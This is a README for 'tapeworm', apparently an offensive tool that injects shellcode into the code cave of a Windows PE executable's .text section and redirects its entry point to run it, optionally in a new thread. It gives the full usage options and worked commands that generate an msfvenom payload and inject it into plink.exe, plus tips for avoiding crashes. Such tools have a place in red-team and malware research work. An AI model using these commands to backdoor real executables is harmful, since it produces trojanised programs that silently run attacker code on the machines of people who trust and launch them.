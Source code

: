 # tapeworm - shellcode injector

Tapeworm injects your shellcode into the code cave at the end of the `.text` section of your PE file.

## Usage

```
usage: tapeworm [-h] -p PAYLOAD -i INPUT -o OUTPUT [options...]

options:
  -h, --help            show this help message and exit
  -t, --use-create-thread
                        Run the shellcode in a new thread. Tapeworm will inject an
                        additional shellcode that will run CreateThread. The created
                        thread will run your shellcode immediately
  -a INJECTION_ADDRESS, --injection-address INJECTION_ADDRESS
                        RVA where the jump to the shellcode should be injected. 
                        If not specified the entry point of the PE will be used.
  -e EXTEND_CAVE, --extend-cave EXTEND_CAVE
                        Move the code cave start address EXTEND_CAVE bytes back.
                        This will result in EXTEND_CAVE last bytes of instructions in .text to be overwritten!
                        You may want to try this if the code cave is too small for your shellcode,
                        but it will make the main program break at some unexpected point.

required named arguments:
  -p PAYLOAD, --payload PAYLOAD
                        shellcode file
  -i INPUT, --input INPUT
                        input PE path
  -o OUTPUT, --output OUTPUT
                        output PE path
```

Example:

```bash
msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -o payload.bin
python tapeworm.py \
  -p payload.bin \
  -i plink.exe \
  -o injected_plink.exe \
  --use-create-thread
```

Sometimes injecting the `jmp <your-shellcode>` instruction at PE's entry point will crash the app if, for example, one of the replaced instructions contains a relocation (tapeworm won't edit them). In that case, run your favorite debugger, find some safe address to inject `jmp` to and pass it via `--injection-address`:

```bash
python tapeworm.py \
  -p payload.bin \
  -i plink.exe \
  -o injected_plink.exe \
  --injection-address 4d00
```

## What does it do?

It tries to inject your shellcode into the code cave at the end of the `.text` section.

Then it alters a few first instructions of your PE's entry point (or the instructions at the address passed via the `--injection-address` switch) to jump to the shellcode.

After the shellcode is executed registers and flags are restored, altered instructions are executed and then it jumps back to right after the entry point to continue program execution.

If you pass `--use-create-thread`, your shellcode will be ran in a new thread. Tapeworm will inject additional shellcode that runs `CreateThread`.

**NOTE**: The 32-bit asm code that calls `CreateThread` is based on the code from [this blog post by Ilia Dafchev](https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html). The 64-bit version is based on the code [this blog post by Nytro Security](https://nytrosecurity.com/2019/06/30/writing-shellcodes-for-windows-x64/).